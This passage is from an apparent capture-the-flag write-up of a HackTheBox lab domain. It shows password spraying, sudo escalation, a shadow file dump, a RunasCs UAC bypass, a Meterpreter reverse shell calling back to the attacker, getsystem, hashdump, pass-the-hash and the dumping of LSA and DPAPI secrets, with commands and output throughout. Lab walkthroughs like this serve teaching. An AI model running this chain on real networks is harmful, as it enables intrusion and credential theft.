SMB         192.168.99.2    445    WS-3             [-] university.htb\Emma.H:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\George.A:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\Jakken.C:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\John.D:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\Kai.K:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\Kareem.A:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\Karol.J:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\Leon.K:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\Lisa.K:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\Martin.T:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\Nour Qasso:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\Nya Laracrof:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\Nya.R:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\Rose.L:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\Steven.P:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [+] university.htb\WAO:WebAO1337 
SMB         192.168.99.2    445    WS-3             [-] university.htb\William.B:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] Connection Error: Error while reading from remote
SMB         192.168.99.2    445    WS-3             [-] university.htb\carol helgen:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\george:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\hana:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\karma.watterson:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\martin rose:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\martin.rose:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\nour:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\nya:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\steven Universe:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\steven.U:WebAO1337 STATUS_LOGON_FAILURE
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/University/files]
└─$ hydra 192.168.99.12 -l wao -p 'WebAO1337' ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-27 18:10:32
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking ssh://192.168.99.12:22/
[22][ssh] host: 192.168.99.12   login: wao   password: WebAO1337
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-27 18:10:32
```

## Enumerating LAB-2

There was nothing much to add to `LAB-2` since the user `WAO` was `member` of the `sudoers` group and had just `ALL : ALL) ALL` permissions so he was just able to `escalate his privileges` to `root` by using `sudo`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/University/serve]
└─$ ssh wao@192.168.99.12
The authenticity of host '192.168.99.12 (192.168.99.12)' can't be established.
ED25519 key fingerprint is SHA256:z8L0+f0YSMRypoPvBj1IMW944a9RwwJXiKkrXdvipy4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.99.12' (ED25519) to the list of known hosts.
--------------------------[!]WARNING[!]-----------------------------
|This LAB is created for web app features testing purposes ONLY....|
|Please DO NOT leave any critical information while this machine is|
|       accessible by all the "Web Developers" as sudo users       |
--------------------------------------------------------------------
wao@192.168.99.12's password: 
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-213-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro
Last login: Mon Oct 21 17:11:58 2024 from 192.168.99.1
wao@LAB-2:~$
```

```c
wao@LAB-2:~$ id
uid=1001(wao) gid=1001(wao) groups=1001(wao),27(sudo)
```

But we found two more `usernames` on the `system` called `steven` and `emma`.

```c
wao@LAB-2:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:109::/run/uuidd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
wao:x:1001:1001:,,,:/home/wao:/bin/bash
steven:x:1002:1002:,,,:/home/steven:/bin/bash
emma:x:1003:1003:,,,:/home/emma:/bin/bash
```

| Username |
| -------- |
| steven   |
| emma     |

```c
wao@LAB-2:~$ ls -la
total 52
drwxr-xr-x 9 wao  wao  4096 Oct 21 17:09 .
drwxr-xr-x 5 root root 4096 Sep 14 03:45 ..
lrwxrwxrwx 1 root root    9 Sep 14 03:48 .bash_history -> /dev/null
-rw-r--r-- 1 wao  wao   220 Sep 13 11:08 .bash_logout
-rw-r--r-- 1 wao  wao  3771 Sep 13 11:08 .bashrc
drwx------ 2 wao  wao  4096 Sep 14 03:55 .cache
drwx------ 3 wao  wao  4096 Sep 14 07:21 .config
drwxrwxr-x 2 wao  wao  4096 Sep 14 06:41 Desktop
drwxrwxr-x 2 wao  wao  4096 Sep 14 06:42 Documents
drwxrwxr-x 9 wao  wao  4096 Sep 14 03:55 Downloads
drwx------ 3 wao  wao  4096 Sep 14 03:55 .gnupg
drwxrwxr-x 3 wao  wao  4096 Sep 14 07:32 .local
-rw-r--r-- 1 wao  wao   807 Sep 13 11:08 .profile
-rw-r--r-- 1 root root   66 Oct 21 17:09 .selected_editor
-rw-r--r-- 1 wao  wao     0 Sep 14 03:58 .sudo_as_admin_successful
```

```c
wao@LAB-2:~$ sudo -l
[sudo] password for wao: 
Matching Defaults entries for wao on LAB-2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wao may run the following commands on LAB-2:
    (ALL : ALL) ALL
```

### Privilege Escalation to root

```c
wao@LAB-2:~$ sudo su -
root@LAB-2:~#
```

### Pivoting (root)

After we switched our `session` to `root` by using `sudo su -` we grabbed the `/etc/shadow` file and stored it for later.

```c
root@LAB-2:/# cat /etc/shadow
root:$6$n5REEVlM$nYgdHK6CtQp3vbyZw2.lMaeUANVM75JmlRncD6qnObUetFP8SG2cc8XW/1enA1oUxXS39H17Cz8./En8sNQNe.:19979:0:99999:7:::
daemon:*:19979:0:99999:7:::
bin:*:19979:0:99999:7:::
sys:*:19979:0:99999:7:::
sync:*:19979:0:99999:7:::
games:*:19979:0:99999:7:::
man:*:19979:0:99999:7:::
lp:*:19979:0:99999:7:::
mail:*:19979:0:99999:7:::
news:*:19979:0:99999:7:::
uucp:*:19979:0:99999:7:::
proxy:*:19979:0:99999:7:::
www-data:*:19979:0:99999:7:::
backup:*:19979:0:99999:7:::
list:*:19979:0:99999:7:::
irc:*:19979:0:99999:7:::
gnats:*:19979:0:99999:7:::
nobody:*:19979:0:99999:7:::
systemd-network:*:19979:0:99999:7:::
systemd-resolve:*:19979:0:99999:7:::
syslog:*:19979:0:99999:7:::
messagebus:*:19979:0:99999:7:::
_apt:*:19979:0:99999:7:::
uuidd:*:19979:0:99999:7:::
sshd:*:19979:0:99999:7:::
wao:$6$ZENNwHYt$DhiPYWPPBP/2sxfUusrx/5x6.8b5qI4gdJde9NDbV.8kTtxTdxvEW5rb5wG9qudc82aX01AOILA2iNoZYEilE/:19982:0:99999:7:::
steven:$6$W14mH6Yy$.qJ3F3FwQ5oVgBiYdCLBSQn8v.SbJ3MDEoTZ/0OhpamOhUKH/hgTZOyuoxcZpwiGtqLYy5PTz1zL6GY7vWGF8/:19979:0:99999:7:::
emma:$6$2gWMCP4b$pzjWdquZSg80UdO2RylTycDchjgdlznxGHhGdKafgyaUgjVVLwsgjbirtNkIzvDCBk5ixquxiba0IFwX6bsa9.:19980:0:99999:7:::
```

## Enumeration of WS-3

On `WS-3` we get a grasp of how massive this box must be after reading the `README.txt` on `WAO's Desktop`.

```c
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 192.168.99.2 -u 'WAO' -p 'WebAO1337'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\wao\Documents>
```

```c
*Evil-WinRM* PS C:\> whoami /all

USER INFORMATION
----------------

User Name      SID
============== =============================================
university\wao S-1-5-21-2056245889-740706773-2266349663-1106


GROUP INFORMATION
-----------------

Group Name                             Type             SID                                           Attributes
====================================== ================ ============================================= ==================================================
Everyone                               Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                   Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
UNIVERSITY\Web Developers              Group            S-1-5-21-2056245889-740706773-2266349663-1129 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

```c
*Evil-WinRM* PS C:\Users\wao\Desktop> dir


    Directory: C:\Users\wao\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        3/13/2024  11:27 AM            532 README.txt
```

```c
*Evil-WinRM* PS C:\Users\wao\Desktop> type README.txt
Hello Professors.
We have created this note for all the users on the domain computers: WS-1, WS-2 and WS-3.
These computers have not been updated since 10/29/2023.
Since these devices are used for content evaluation purposes, they should always have the latest security updates.
So please be sure to complete your current assessments and move on to the computers "WS-4" and "WS-5".
The security team will begin working on the updates and applying new security policies early next month.
Best regards.
Help Desk team - Rose Lanosta.
```

## Privilege Escalation to SYSTEM (unintended)

Unfortunately there was a pretty interesting `unintended solution` to the box. Therefore we used `RunasCs` to execute our `Metasploit` binary as `WAO`. The application `RunasCs` usually tries to enable all `Windows Tokens` which luckily worked on this box.

- [https://github.com/antonioCoco/RunasCs](https://github.com/antonioCoco/RunasCs)

So we executed `RunasCs` as user `WAO` with the option for `bypassing` the `User Account Control (UAC)` and `Logon Level 5` which gave us another shell as `WAO` on `Metasploit` but with the `SeImpersonatePrivilege` enabled.

- [https://learn.microsoft.com/en-us/windows-server/identity/securing-privileged-access/reference-tools-logon-types](https://learn.microsoft.com/en-us/windows-server/identity/securing-privileged-access/reference-tools-logon-types)

We knew from the `post exploitation` we did that the `password` for `Administrator` was stored in a `Scheduled Task configuration`. We assumed that the `--bypass-uac` option of `RunasCs` in combination with `Log Level 5` made it possible that the `SeImpersonatePrivilege` got `enabled`.

| Logon Type | #   | Authenticators accepted         | Reusable credentials in LSA session | Examples         |
| ---------- | --- | ------------------------------- | ----------------------------------- | ---------------- |
| Service    | 5   | Password (stored as LSA secret) | Yes                                 | Windows services |

```c
*Evil-WinRM* PS C:\tmp> .\RunasCs.exe 'WAO' 'WebAO1337' "C:\tmp\asdf.exe" --bypass-uac -l 5 -b
```

```c
<--- CUT FOR BREVITY --->
[*] Sending stage (201798 bytes) to 10.129.153.87
[*] Meterpreter session 3 opened (10.10.14.79:6669 -> 10.129.153.87:60254) at 2024-10-27 18:32:16 +0100

meterpreter >
```

We checked the `privileges` after getting the `callback` for a new `meterpreter reverse shell` and it worked!

```c
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeImpersonatePrivilege
SeIncreaseWorkingSetPrivilege
SeMachineAccountPrivilege
```

From here on we just used the `getsystem` function of `meterpreter` to abuse the `SeImpersonatePrivilege` and got a new shell as `NT AUTHORITY\SYSTEM`.

```c
meterpreter > getsystem
...got system via technique 6 (Named Pipe Impersonation (EFSRPC variant - AKA EfsPotato)).
```

```c
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

With `hashdump` we dumped all the `hashes` and used `Pass the Hash (PtH)` to login as `Administrator` to grab the `user.txt` and the `root.txt`.

## user.txt

```c
*Evil-WinRM* PS C:\Users\John.D\Desktop> type user.txt
3ba51a9a5920f863df11721de84ee33c
```

## root.txt

```c
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
7d1122adc0d5ef02e4a6f09480198e34
```

## Post Exploitation

```c
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e63413bab01a0b8820983496c0be3a9a:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:41c4599e48661690fa6538fe96d366de:::
John.D:1103:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
George.A:1104:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
WAO:1106:aad3b435b51404eeaad3b435b51404ee:da49675b9d3d5e403fa3c1c6b5c3f5a2:::
hana:1107:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
karma.watterson:1108:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
Alice.Z:1109:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
Steven.P:1110:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
Karol.J:1111:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
Leon.K:1112:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
A.Crouz:1113:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
Kai.K:1114:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
Arnold.G:1115:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
Kareem.A:1116:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
Lisa.K:1117:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
Jakken.C:1118:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
Nya.R:1119:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
Brose.W:1120:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
Choco.L:1121:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
Rose.L:1122:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
Emma.H:1123:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
C.Freez:1124:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
Martin.T:1127:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
William.B:1132:aad3b435b51404eeaad3b435b51404ee:a910f374f7e63717f112fb4e40122a7c:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:2522eb84c83b5e9ffde18045be5b9e59:::
WS-3$:1134:aad3b435b51404eeaad3b435b51404ee:b51c7661e82feb147afffb324d91af34:::
GMSA-PClient01$:1140:aad3b435b51404eeaad3b435b51404ee:e5799ed7c404dead98cbe2fc610b9b1f:::
WS-1$:1141:aad3b435b51404eeaad3b435b51404ee:c23b84b12d7f2c758e4ca7da5b053c81:::
WS-2$:1142:aad3b435b51404eeaad3b435b51404ee:bfd5d3a7883cb6e0a63a29d0cdfd430c:::
WS-4$:1143:aad3b435b51404eeaad3b435b51404ee:c591cf4bcad09cc0eb5ba2b54e58b217:::
WS-5$:1144:aad3b435b51404eeaad3b435b51404ee:7427ac9458a4a39f5076ab080b1329b3:::
LAB-2$:1145:aad3b435b51404eeaad3b435b51404ee:93b3bf5940c921c6f072961d10c3f43f:::
```

```c
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.153.87 -u administrator -H e63413bab01a0b8820983496c0be3a9a --sam --lsa --dpapi
SMB         10.129.153.87   445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:university.htb) (signing:True) (SMBv1:False)
SMB         10.129.153.87   445    DC               [+] university.htb\administrator:e63413bab01a0b8820983496c0be3a9a (Pwn3d!)
SMB         10.129.153.87   445    DC               [*] Dumping SAM hashes
SMB         10.129.153.87   445    DC               Administrator:500:aad3b435b51404eeaad3b435b51404ee:e1ab6bc4d7d84111fe3e0fb271de1e0b:::
SMB         10.129.153.87   445    DC               Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.153.87   445    DC               DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[18:35:44] ERROR    SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.                                                                                                 secretsdump.py:1435
SMB         10.129.153.87   445    DC               [+] Added 3 SAM hashes to the database
SMB         10.129.153.87   445    DC               [+] Dumping LSA secrets
SMB         10.129.153.87   445    DC               UNIVERSITY\DC$:aes256-cts-hmac-sha1-96:1e28d41c5f05d6d11bb85093b1dd37796d526e747f51aa75ab4cad3f3c90bfe7
SMB         10.129.153.87   445    DC               UNIVERSITY\DC$:aes128-cts-hmac-sha1-96:dd4911edcf56d2626325632928d0f45c
SMB         10.129.153.87   445    DC               UNIVERSITY\DC$:des-cbc-md5:23944961610b10d0
SMB         10.129.153.87   445    DC               UNIVERSITY\DC$:plain_password_hex:e97478a1793c33f8f9a11b182653d4c9e62c86d8b6e0a3d73196a9470144a56d3e5c1e9db75e8cc6b580e95a6a5094ef929ea1ede9ac3c890d2103cc2babc001c6bc6d1f501bf69f293b2edd261e6d2a78f7f548efb1bdaf579ff29aada34007b64f40324cedbe67ad19e78760883f63198000caff9ad2f4606b7ebdd8aa2c6c3d573fc3dec04ad378f3e9c00e0017b907bc227daa76db77910961120fc47e8fe605532a350a3096442e2efd4a6227f049c221f8e4a0b27d5bade63d7605438fd088e788815524c8484d2ec7fc11c2ea0a98ca014f819afee1a3da79cd9ea29662456e1006e9460201a6757f46759d18
SMB         10.129.153.87   445    DC               UNIVERSITY\DC$:aad3b435b51404eeaad3b435b51404ee:2522eb84c83b5e9ffde18045be5b9e59:::
SMB         10.129.153.87   445    DC               dpapi_machinekey:0x44e8899b6f107411270e6b698b1cfde82435f5c4
dpapi_userkey:0x0616b9ece51544c0f81f1c19a4cb7812aee0feb6
SMB         10.129.153.87   445    DC               NL$KM:88460a2baa9113806d4aadd2f2509c467d95dc66c93c552f9218486cdb31be0767230625473640fc4e03ece7cbc428f800674508b93129e4e69f6d5b07f79609
SMB         10.129.153.87   445    DC               [+] Dumped 7 LSA secrets to /home/kali/.nxc/logs/DC_10.129.153.87_2024-10-27_183537.secrets and /home/kali/.nxc/logs/DC_10.129.153.87_2024-10-27_183537.cached
SMB         10.129.153.87   445    DC               [+] User is Domain Administrator, exporting domain backupkey...
SMB         10.129.153.87   445    DC               [*] Collecting User and Machine masterkeys, grab a coffee and be patient...
SMB         10.129.153.87   445    DC               [+] Got 7 decrypted masterkeys. Looting secrets...
SMB         10.129.153.87   445    DC               [SYSTEM][CREDENTIAL] Domain:batch=TaskScheduler:Task:{78DFC408-A3F6-4695-A8C0-F287C3AA1803} - UNIVERSITY\Rose.L:v3ryS0l!dP@sswd#X
SMB         10.129.153.87   445    DC               [SYSTEM][CREDENTIAL] Domain:batch=TaskScheduler:Task:{5C63C540-D866-4739-9833-10A57975289F} - UNIVERSITY\Administrator:v3ryS0l!dPasswd#0
```
